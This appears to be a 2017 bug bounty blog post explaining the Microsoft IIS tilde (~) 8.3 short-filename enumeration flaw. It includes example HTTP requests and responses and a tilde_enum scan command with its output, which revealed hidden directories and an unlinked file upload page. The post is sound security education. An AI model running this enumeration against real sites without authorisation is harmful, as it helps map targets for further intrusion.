


+++
title = "Microsoft IIS Tilde Enumeration - Legacy Nightmare"
description = "Discovery of a rare Microsoft IIS Tilde (~) enumeration bug discovered during a bug bounty programme."
date = 2017-07-07
[taxonomies]
tags = ["security"]
+++
Recently during a bug bounty program I came across a particularly, "rare" vulnerability that often few people (myself included) don't quite understand. At first glance, the Microsoft IIS Tilde (~) Enumeration vulnerability seems like one of those cases where a feature is a bug (similar to [XXE](https://web.archive.org/web/20190514192329/https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)).

This article aims to dive deeper into the Windows filesystem, the enumeration vulnerability and it's impact on a web application.

> **Note** &mdash; All the information here is from a live bug bounty and not a local test setup to display the vulnerability. Public disclosure has not yet been granted and thus any references to the actual web application have been omitted.

---

## Feature Rich

When creating a new file on a Windows system, a short file name is generated using 8.3 format which can be seen when opening up your command prompt and running `dir /X` like so.


This might seem obvious and not so horrible at first glance. Let's tackle this from a different perspective. I originally had a file named fileupload-20170707-N6L7dR4KcA.aspx which in the 8.3 file format is translated to `FILEUP~1.ASP`. I can now access the resource whilst only having to guess 12 characters instead of 32 and thus **greatly** reduced the total number of combinations required!

Some of you may be asking, "Why the short name?". The answer is essentially, to support old MS-DOS or 16-bit programs; this is the foundation for everything else that occurs throughout this article. That out of the way, enough with the boring stuff. Let's try to get a real target.

## The Target

When an application is powered by ASP.NET there is a good chance that the vulnerability can be found in some form or another. The idea is to cause the application to give a different response for more or less the same resource. However to confirm that the resource exists, I ran two tests.

### First Test

Check that the application will not respond differently when the file actually does not exist. Starting without the `~1` in the path.

#### Request

```none
GET /nonexistent-random-file/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

So far so good, let's try the same thing using the `~1` instead.

#### Request

```none
GET /nonexistent-random-file~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

Same response, which is what we are looking for here. Great, now moving on to the next stage.

### Second Test

We know that the server will always respond with a `404 Not Found` when the file either in normal format or in 8.3 format does not exist. What happens when we try to access a file using 8.3 format that does exist? The server will respond with a `404 Not Found` if the resource does not exist, even if we use 8.3 format. Let's see what we can do to trigger another response.

#### Request

```none
GET /fileup~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Pragma: no-cache
Content-Length: 576
```

Bang! The site returned a 200 OK but still told us that the request was rejected:

_Error with your request_

That's great, we managed to get a different response which means there is something lingering in there.

## Extending the Discovery

Testing all of this manually is monkey's work. Let's use an automated tool such as [tilde_enum](https://web.archive.org/web/20190514192329/https://github.com/WebBreacher/tilde_enum) (used Python v2.7.11) instead to see if it finds anything juicy.

We need to first download a WORDLIST for the scanner to use. I happened to use the following [list](https://web.archive.org/web/20190514192329/https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web_Content/raft-small-words-lowercase.txt). Kicking off the scan.

```cmd
C:\tmp\tilde_enum-master>"C:/Python27/python" tilde_enum.py -u https://example.com/ -w raft-small-words-lowercase.txt -f
[-] Testing with dummy file request https://example.com/PLb4ftIiaW.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1245
[-] Testing with user-submitted https://example.com/
[-] URLUser -> HTTP Code: 200, Response Length: 3775
[!] You have used the -f switch to force us to scan. Well played. Using the IIS/6 "*~1*/.aspx" string.
[+] Found a directory: advert
[+] Found a directory: app_of
[+] Found a directory: aspnet
[+] Found a directory: associ
[+] Found a directory: buyers
[+] Found a directory: commit
[+] Found a directory: confer
[+] Found a directory: errorp
[+] Found a directory: fileup
[+] Found a directory: fundra
[+] Found a directory: leader
[+] Found file: logo-2 . jpg
[+] Found a directory: mainte
[+] Found a directory: member
[+] Found a directory: messag
[+] Found a directory: resour
[+] Found a directory: subscr
[+] Found a directory: testlo
[+] Found a directory: webbac
[+] Found a directory: webpor
[-] Finished doing the 8.3 enumeration for /.
```

This is only a subset of the entire scan however we already found something juicy in there. From the list I can see filup which as most of you have already guessed, maps to `fileupload.aspx`. Let's find out.

Sending the first request to `fileup~1` like we saw before also return a `200 OK` along with the response.



Let's try accessing the file directly using `fileupload.aspx` instead and see if it responds with the actual file.



Looks like we just scraped the tip of the iceberg! A random file upload page that isn't linked anywhere in the web application but can be accessed directly; definitely juicy.

## Conclusion

That is all with regards to the Microsoft IIS Tilde Enumeration vulnerability. Below are some references and resources that would help you learn further and into more detail should you wish to.

The vulnerability itself may not seem scary alone but it could definitely expose some sensitive pages or directories to chain into another attack.

---

## Resources

* https://www.acunetix.com/blog/web-security-zone/windows-short-8-3-filenames-web-security-problem/
* http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
* https://github.com/WebBreacher/tilde_enum
